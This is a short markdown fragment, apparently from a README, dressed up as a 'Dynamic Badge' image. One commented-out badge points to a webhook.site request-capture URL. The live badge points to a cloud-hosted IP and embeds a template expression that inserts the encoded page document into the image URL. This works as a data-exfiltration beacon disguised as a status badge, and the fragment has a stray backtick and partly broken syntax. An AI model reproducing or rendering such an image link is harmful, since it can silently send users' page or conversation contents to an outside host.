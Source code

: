 <!-- ![Dynamic Badge](https://webhook.site/8714cbf4-0235-49e8-9ecb-6cc153712f85/json?url=data:application/json,%7B%22label%22:%22myLabel%22,%22value%22:%2242%22%7D&query=$.value&color=blue) -->
	


![Dynamic Badge](https://163.17.197.104.bc.googleusercontent.com/json?url=data:application/json,{"label":"myLabel","value":"${encodeURIComponent(document)}"}&query=$.value&color=blue`)
